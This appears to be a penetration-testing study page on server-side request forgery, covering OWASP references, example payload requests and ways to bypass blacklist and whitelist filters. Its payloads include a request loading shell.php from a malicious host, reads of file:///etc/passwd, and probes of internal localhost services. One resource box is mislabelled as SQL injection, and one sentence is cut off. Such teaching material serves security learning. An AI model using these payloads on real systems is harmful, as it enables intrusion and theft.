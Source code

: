 ```yaml
---
title: SSRF attack - Server Side Request Forgery
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting
  - web pentesting
---
```

# SSRF attack - Server Side Request Forgery


!!! quote "Resources"
    - See a more detailed [explanation about SQL injection](webexploitation/sql-injection.md).
    - [PayloadsAllTheThings Original payloads for different SQL databases](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection).

??? quote "OWASP"
	[OWASP Web Security Testing Guide 4.2](../OWASP/index.md) > 7. Data Validation Testing > 7.19. Testing for Server-Side Request Forgery
	
    | ID   | Link to Hackinglife             | Link to OWASP                                                                                                                                                                                                        | Description                                                                                                                    |
    | :--- | :------------------------------ | :------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | :----------------------------------------------------------------------------------------------------------------------------- |
    | 7.19 | [WSTG-INPV-19](../OWASP/WSTG-INPV-19.md) | [Testing for Server-Side Request Forgery](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/19-Testing_for_Server-Side_Request_Forgery) | - Identify SSRF injection points.  - Test if the injection points are exploitable.  - Asses the severity of the vulnerability. |



Server-side request forgery (also known as SSRF) is a web security vulnerability that allows an attacker to induce the server-side application to make requests to an unintended location. The attacker could create a request to internet or to the intranet, which can be used to port scan or probe a remote machine. Basically, it could allow an atacker to:

- Take control of a remote machine.
- Read or update data.
- Read the server configuration.
- Connect to internal services...


With:

```
http://
file:///
dict://
```


## Exploitation


### Load the Contents of a File

```
GET https://example.com/page?page=https://malicioussite.com/shell.php
```

[See Burpsuite Labs](../burpsuite/burpsuite-ssrf.md)

### Read files from restricted resources 

```
GET https://example.com/page?page=https://localhost:8080/admin
GET https://example.com/page?page=https://127.0.0.1:8080/admin
GET https://example.com/page?page=file:///etc/passwd
```


### Read files from other backend systems

In some cases, the application server is able to interact with back-end systems that are not directly reachable by users. These systems often have non-routable private IP addresses.


```
GET https://example.com/page?page=https://localhost:3306/
GET https://example.com/page?page=https://localhost:6379/
GET https://example.com/page?page=https://localhost:8080/
```

Gopherus sends non authenticated requests to other services and it succedde
## Techniques

**Bypass blacklist-based input filters**

Some applications block input containing hostnames like 127.0.0.1 and localhost, or sensitive URLs like /admin. In this situation, you can often circumvent the filter using the following techniques:

- Use an alternative IP representation of `127.0.0.1`, such as `2130706433`, `017700000001`, or `127.1`.
- Register your own domain name that resolves to `127.0.0.1`. You can use `spoofed.burpcollaborator.net` for this purpose.
- Obfuscate blocked strings using URL encoding or case variation.
- Provide a URL that you control, which redirects to the target URL. Try using different redirect codes, as well as different protocols for the target URL. For example, switching from an `http:` to `https:` URL during the redirect has been shown to bypass some anti-SSRF filters.

**Bypass whitelist-based input filters**

Some applications only allow inputs that match, a whitelist of permitted values. The filter may look for a match at the beginning of the input, or contained within in it. You may be able to bypass this filter by exploiting inconsistencies in URL parsing.

- Using the `@` character to separate between the userinfo and the host: `https://expected-host:fakepassword@evil-host
- URL fragmentation with the `#` character: `https://attacker-domain#expected-domain`
- You can leverage the DNS naming hierarchy to place required input into a fully-qualified DNS name that you control. For example: - `https://expected-host.evil-host`
- URL encoding. Double URL-encode characters to confuse the URL-parsing code.
- Fuzzing
- Combinations of all of the above

### Exploiting redirection vulnerabilities

It is sometimes possible to bypass filter-based defenses by exploiting an open redirection vulnerability.

## Resources

- [Portswigger: https://portswigger.net/web-security/ssrf](https://portswigger.net/web-security/ssrf).
- [Portswigger labs](https://portswigger.net/web-security/all-labs#server-side-request-forgery-ssrf).


## Tools and payloads 

- See updated chart: [Attacks and tools for web pentesting](../OWASP/index.md).
- Gopherus.

